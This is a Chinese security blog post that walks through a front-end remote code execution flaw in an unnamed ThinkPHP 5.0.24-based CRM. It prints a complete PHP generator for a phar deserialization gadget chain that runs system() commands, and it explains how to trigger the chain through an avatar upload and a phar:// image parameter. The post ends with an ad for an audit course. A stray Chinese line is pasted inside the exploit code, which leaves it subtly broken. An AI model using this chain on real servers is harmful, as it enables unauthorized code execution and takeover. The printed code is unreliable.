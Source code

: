 #  某CRM系统前台RCE漏洞   
原创 知名小朋友  进击安全   2025-05-08 03:00  
  
**免责申明**  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
  
#### 一、前言      
###     这是之前的一个库存了，现在发出来大家一期学习，现在官方已经打了相关补丁，一起来学习一下。  
### 二、审计流程  
###      是一个PHP的相关源码，载入源码进行查看架构。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXswEk246yHA9UNLpNSdpAbgWUiaS6iceDrrnribR6ZKOGvdRS1aI2RjjzQ/640?wx_fmt=png&from=appmsg "")  
  
这种架构可以非常明显的看出来是TP框架开发的，我们着重来审计前台RCE漏洞，查看前台的文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXVVicOSEQlCcRbyCPuqoZvs4aJZzLyX7gFr98HhMm1iczMgmHkevdpzOQ/640?wx_fmt=png&from=appmsg "")  
  
在寻找一圈无果之后开始转战别的漏洞，这里先来确定一下TP的版本为5.0.24在这个版本当中存在一个反序列化漏洞，我们根据反序列化漏洞生成phar文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXZREolwUiaPiasMutFkkWVfljkIs4DVpibEQSic9fibqA1BUvfiaMHwNO5PBQ/640?wx_fmt=png&from=appmsg "")  
  
生成代码如下：  
  
```
<?php
namespace League\Flysystem\Cached\Storage{
class Psr6Cache{
private $pool;
protected $autosave = false;
public function __construct($exp)
 {
$this->pool = $exp;
 }
 }
}
namespace think\log{
class Channel{
protected $logger;
protected $lazy = true;
public function __construct($exp)
 {
$this->logger = $exp;
$this->lazy = false;
 }
 }
}
namespace think{
class Request{
protected $url;
public function __construct()
 {
$this->url = '<?= system(\'要执行的命令'); exit(); ?>';
 }
 }
class App{
protected $instances = [];
public function __construct()
 {
$this->instances = ['think\Request'=>new Request()];
 }
 }
}
namespace think\view\driver{
class Php{}
}
namespace think\log\driver{
class Socket{
protected $config = [];
protected $app;
protected $clientArg = [];
public function __construct()
 {
$this->config = [
注册⽤户后上传⽂件
'debug'=>true,
'force_client_ids' => 1,
'allow_client_ids' => '',
'format_head' => [new \think\view\driver\Php,'display'], # 利⽤类和⽅法
 ];
$this->app = new \think\App();
$this->clientArg = ['tabid'=>'1'];
 }
 }
}
namespace {
@unlink('shell.png');
$phar = new Phar("phar.phar"); //
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$c = new think\log\driver\Socket();
$b = new think\log\Channel($c);
$a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
$phar->setMetadata($a);
$phar->addFromString("a", "a"); //添加要压缩的⽂件
$phar->stopBuffering();
}
?>
```  
  
  
然后我们开始找phar反序列化漏洞触发点。  
  
三、phar反序列化触发点  
  
     
 这里师傅们不知道phar反序列化触发点在哪里可以自行百度一下。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXb8yiaicxDjjVZJRDyB8wtg7Y4TmdZZIQCAMez0CSZiciaP15kE1oJXzcMw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXSmLNksjicOVj1VVk1jpPIlWiaVNsVMszojP0eBoD5njSsOJdqtfK6wvw/640?wx_fmt=png&from=appmsg "")  
  
这里我们找到了readfile的触发点，这里虽然判断了后缀，但是不影响，phar反序列化漏洞不会受到后缀的影响，我们寻找哪里调用了这个方法put_image。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXXab9o5r1ia4Ptx6nZBPicfWutEnaJ7HWA8N8cA9ibu5ibOiaCPg3DVqk07A/640?wx_fmt=png&from=appmsg "")  
  
在Controller当中找  
到上述方法，这里我们的参数控制为image参数，现在我们只需要找一个可以上传图片的地方即可，然后调用这个地方的方法，将image变为phar  
://图片地址，即可。  
  
四、漏洞复现  
  
      
在这套源码当中，前台可以直接注册用户，并且进行头像上传（不贴图了，特征太明显了），上传之后我们进行phar反序列化漏洞攻击。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXKlibdUIVdkw0vWrtOVj2CzwN3Aadrm2ws8E6AVnHAAGqAQyzXliaf0kw/640?wx_fmt=png&from=appmsg "")  
  
这里执行的命令是在服务器当中创建一个目录为nishi。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVPCYqASAYYKARGricSicf5nXjXLn2Tb3ZWKp0R6AeIIeBNh95VNtOakR23lmFiaDSH5uF79LqlPpQXQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到成功没创建，至此获得前台RCE漏洞一枚。  
  
五、完结  
  
  
     代码审计第四期，富含PHP、JAVA、NET代码审计，顺带APP、小程序、WEB当中参数逆向以及JAVA工具二开与SRC案例讲解，其中多多0day讲解，实战案例分析，不拿着靶场去做，想学习速速报名了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhUicibrBmrZ2iazoDJic2RyDklw4547e6aNia1OEMntI6wGqRdvr87XVgUdiaiczwW67bRO3iayvd7H7bZoeQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=jpeg "")  
  
